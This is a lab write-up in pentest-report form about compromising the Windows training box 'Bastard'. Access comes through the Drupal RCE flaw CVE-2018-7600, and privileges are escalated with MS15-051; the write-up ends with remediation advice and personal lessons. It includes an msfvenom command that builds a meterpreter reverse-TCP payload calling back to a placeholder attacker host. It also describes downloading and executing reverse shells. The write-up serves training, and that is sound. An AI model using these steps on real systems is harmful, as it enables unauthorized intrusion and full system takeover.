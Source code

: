 # Bastard – Please keep things updated!


## Introduction
This machine was a challenge box for the class Windows Privilege Escalation by TCM, done in preparation for the Practical Network Penetration Tester certification. In it a CMS vulnerability is highlighted for initial exploit and a privilege escalation technique is used which is the main goal of this box.


## Executive Summary
Through enumeration a webpage/site was found using the well know CMS Drupal. Investigating further reveals the exact version of Drupal which then leads to a known exploitable vulnerability (CVE-2018-7600) that allows for remote code execution (RCE) that can lead to a low level shell on the system. From this low level access more enumeration was performed, and multiple possible vulnerabilities were found due to the system not being updated. Privilege Escalation was achieved by using the vulnerability MS15-051.

## Initial Access
Utilizing Nmap, there were only a few open ports found on the system. Further investigation of the website open on port 80 revealed a website using Drupal in its creation. Combining this information with the robots.txt file’s disallowed entry of “/changelog.txt” reveals the exact version in use.

(image nmap)

(image changelog.txt)

With the exact Drupal version, an exploit was found that worked for it, utilizing a python script that performs a RCE on the system without any authentication required. The proof-of-concept code used to exploit the system resides here: https://github.com/pimps/CVE-2018-7600
Test commands were run before the exploit was used to download a reverse shell and execute for low level access to the system.

(image test commands)

(image shell exploit)

NOTE: meterpreter shell was used in exploit created using the command:

‘’’
msfvenom -p windows/meterpreter/reverse_tcp LHOST=(attackIP) LPORT=(attackerPort) -f exe -o program.exe
‘’’


## Privilege Escalation

With meterpreter access to the system, the Local Exploit Suggester module of Metasploit was utilized to find potential vulnerabilities to escalate privileges with.

(image local_exploit_suggester)

From this list of potential vulnerabilities the Pentester attempted to use the Metasploit modules suggested without success, but was able to find a compiled exploit that allowed for elevated command execution from github that was successful using the vulnerability MS15-051.
As with the previous Drupal exploit, test commands were run before being used in the exact same way to execute a reverse shell that gave elevated access as nt authority/system.

(images of exploit and shell access)

(images of blurred flags)


## Suggested Mitigations and Remediations

### Drupal 7.54 (CVE-2018-7600)
Mitigation suggestions: This is a flaw within the specified versions of Drupal and not many mitigations can be done. It is suggested to remove the ability to see the changelog and other supporting documentation from view if possible to avoid revealing exact versions. This however is a minor fix and will not prevent an attack from exploiting the system.
Remediation suggestions: Update Drupal to the latest version. Keeping software updated to the latest version helps prevent known exploits from being ran as they usually are patched quickly once know.

### MS15-051 (https://learn.microsoft.com/en-us/security-updates/securitybulletins/2015/ms15-051)
No migitations are suggested as this is a flaw within the windows kernel that is exploited to run elevated commands.
Remediation suggestions: apply the latest security patches from Microsoft to remedy the exploit. It is also suggested that the system be upgraded to a newer version of Windows Server as Windows Server 2008 R2 has had support ended as of 1/14/2020 (https://learn.microsoft.com/en-us/troubleshoot/windows-server/windows-server-eos-faq/end-of-support-windows-server-2008-2008r2)


## Lessons Learned

(Note: personal musings, not part of report therefore will be in first person)

The biggest thing I learned from this box is to try EVERYTHING. If you know the system is vulnerable to multiple exploits, research them, and try them. And when one avenue doesn’t work try another. I don’t mean throw anything at a system without knowing what it will do to it. Make sure it won’t damage the system, and if there a possibility it will cause the system to crash etc, make sure the customer is okay with it.

However knowing that, explore your options. I tried ALL of the Metasploit modules suggested by the local suggester and was unable to have any of them work. The wonderful thing about todays world is that there is github with compiled exploits that can be used. I was able to find the exploit used on this box and run the elevated commands needed to get an elevated shell on the system, where I wasn’t able to with the Metasploit module for the exact same exploit.

Another thing to note is that I recently read an article after reviewing my first attempt at reporting to better write a report, which shows in this one as I changed the tone and view. The article is here: https://www.blackhillsinfosec.com/how-to-not-suck-at-reporting-or-how-to-write-great-pentesting-reports/ and was very helpful with useful information about writing a better report. Going forward I’ll attempt to right reports using these suggestions and when I get through my backlog of machine writes or get bored and feel up to it, I’ll rewrite my first report using these suggestions.
